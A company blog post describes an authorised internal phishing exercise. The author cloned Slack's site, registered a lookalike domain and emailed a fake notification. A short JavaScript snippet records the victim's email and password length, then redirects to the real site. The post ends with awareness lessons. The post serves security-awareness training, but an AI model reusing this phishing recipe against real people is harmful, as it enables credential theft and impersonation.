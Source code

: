 ```yaml
---
legacy_id: 64
path: /posts/64-hacking-your-own-company/
title: "Hacking your own company"
author: joao-justo
date: 18/11/2015
cover: https://subvisual.s3.amazonaws.com/blog/hero/129/image.jpg
retina_cover: https://subvisual.s3.amazonaws.com/blog/hero/129/image@2x.jpg
tags:
  - development
intro: "I have a confession to make. A while ago I hacked my own company."
---
```


I have a confession to make. A while ago I hacked my own company.

##Motivation

You might be wondering why someone would hack his own company. A company like Subvisual has a transparent communication and processes. So, if I want to know something, all I got to do is ask.

The answer to this question is [Mr. Robot](http://www.imdb.com/title/tt4158110/?ref_=fn_al_tt_1)!
Yes, the TV show.

I’m a big fan of Mr. Robot.
For those of you who don’t know it, it’s a hacker TV series that’s very realistic. Instead of showing some random letters on a terminal they showed the viewers real techniques and exploits.

If you watched the series you certainly have noticed that our favourite hacker Elliot accomplishes some hacks by masquerading as a trustworthy entity and then simply ask for information directly to the victim.

This technique is called a phishing scam and despite being one of the most used exploits on the internet, it’s still one of the most effective.

I was skeptic that people would fall so easily on such a simple exploit so I became very curious on this. After some time I came up with a simple case study:

I wanted to create a phishing scam targeting my co-workers. The goal was to send a fake email to my whole team, containing a link to a malicious site, in order to see how many people would login on it, giving me their credentials.

If you put some thought on the matter your own team members are the perfect test subjects. You spend at least 8 hours per day with them, you know some of their habits, some of their tools and most importantly some of the sites they use and therefore some of the emails they receive. You also have the opportunity to watch first-hand how they will react when they see it.

Now you might be wondering if this is reasonable. After all getting someone’s private information might have a devastating effect on both the victim and the hacker, also worth mentioning that such action is… illegal. Considering that the victim will be sitting next to you this might not seem like a good idea after all. Also worth mentioning that my targets are experienced web developers so their defences are probably a step higher. 

How can this be accomplished in such conditions? If you stick with me a little longer I’ll care to explain.

##Preparation

My first plan was to attack the whole company at once keeping the whole thing secret and then, on a Friday Talk reveal what happened and how many people had fallen. After some days thinking on this and given the reasons above I changed the plan a bit.

The first thing I did was to ask permission and guidance to Roberto, our CEO. He received the idea surprisingly well and like me he was curious to know if our team would be able to recognise a simple phishing scam and if so, how could we improve the company security and awareness. We also shared the same concerns regarding personal information so it was decided that passwords or other relevant information would not be stored. The only thing that I would try to capture was the password length as proof that the given person had been victim of the attack.

With this set I began to prepare the hack.

After some time observing the team I noticed that most of our internal communication is done on [Slack](https://slack.com/), [Trello](https://trello.com/) and [GitHub](https://github.com/). The emails that we received are mostly notifications from these apps so I started to analyse how easily I could create a clone of those and trick my coworkers to login to it.

My weapon of choice was Slack. The main reason for this was the fact that almost all of our important communication is generated on it. Theoretically if someone received an important email saying that he/she missed an important message this person should follow the link to catch up.

Here’s an example of a normal notification email from Slack:

![Regular Slack email](https://subvisual.s3.amazonaws.com/blog/post_image/67/image-1447699776511.png)

The email itself shows the missing mention so you might think that this not an ideal situation. For an efficient phishing scam we usually need some content that requires an action, a hook that leads the victims to follow a malicious link.

For this to work I needed to change the content by inserting a partial message and a call to action button, but maintain the familiar layout and appearance.

##Building the attack

This is the geeky part but there is not much to it on this field. All we need is a simple static web page and some place to save the emails and password lengths.

I chose to host the page on [GitHub Pages](https://pages.github.com/) and to use [Parse](https://parse.com/) as my attack storage for the sake of simplicity.

Then I started searching for a domain that resembled slack.com and indeed I found one available - slaack.co.

To clone the whole slack.com site I used an app called SiteSucker. This duplicates the site directory structure and files on your machine meaning that my cloned slack would look exactly like the original even on mobile.

With this set getting the emails and passwords lengths was very easy. I just removed the code from the login form and added some lines:

```
Parse.initialize(‘xxxxxx’,’xxxxxx’);

var ScammedUser = Parse.Object.extend(‘ScammedUser’);
var scammedUser = new ScammedUser();
	
function onSubmitKey(e) {
  if (e.keyCode == 13)
    onSubmit();
}
	
function onSubmit() {
  var accountDetails = {
    email: $(‘#email’).val(),
    password: $(‘#password’).val().length
  };
			
  if (!accountDetails.email ||
      !accountDetails.password)
    return;
	
  scammedUser.save(accountDetails)
    .then(function(object) {
      console.log(‘Success’, accountDetails);
      window.location.href = realSlackLink;
    });
}
```

Finally, the fake email looked like this:

![Fake Slack email](https://subvisual.s3.amazonaws.com/blog/post_image/68/image-1447699815368.png)

##Attacking

This whole thing was online for more than 3 days, ready and waiting for the perfect opportunity. I chose to strike on a Thursday by the end of the day as people left the office. I sent the fake email. That way, as people arrived home, they would see an email notification from the team. Even better, they would see a notification from their CEO on a channel called “#secretProject” so the curiosity factor was involved.

##Results

In the end 20% of our team fell on the attack (all of them are developers). While this number might seem acceptable, it is not. On such a sensible platform like Slack, where most of our company's communication happens, a malicious attacker only needed one person to gain access to privileged information. Also worth noticing that if someone gained access to Slack this person could easily try to impersonate the victim in order to collect other information from the victim’s coworkers.

I presented this results on a Friday Talk and after some discussion I understood the rest of the people didn’t open the link only because they didn't care about Slack email notifications. I also presented some context and countermeasures about phishing attacks that helped raising the awareness for this kind of vulnerability.

The most important lessons taking from this are:

-
Nobody is safe from being victim of a phishing attack, even experienced developers can easily be victims.

-
It’s hard to identify fake communication from the platforms we use every day. We don’t pay that much attention to it so it’s only natural that our defences are lower than normal.

-
People now better understand the importance of security measures like two factor authentication.

-
It was fun and a completely different approach to this security theme; by feeling the problem people understand better that they need to create defences against such attacks.

On the end what I have to tell you is to go ahead and do the same on your company. It’s easier to construct defences with a real understanding of the problem than just trying to fight something that was not experienced by anyone.

I will try to identify and correct more weaknesses in Subvisual and I hope you will do the same at your own work place.

Happy hacking.
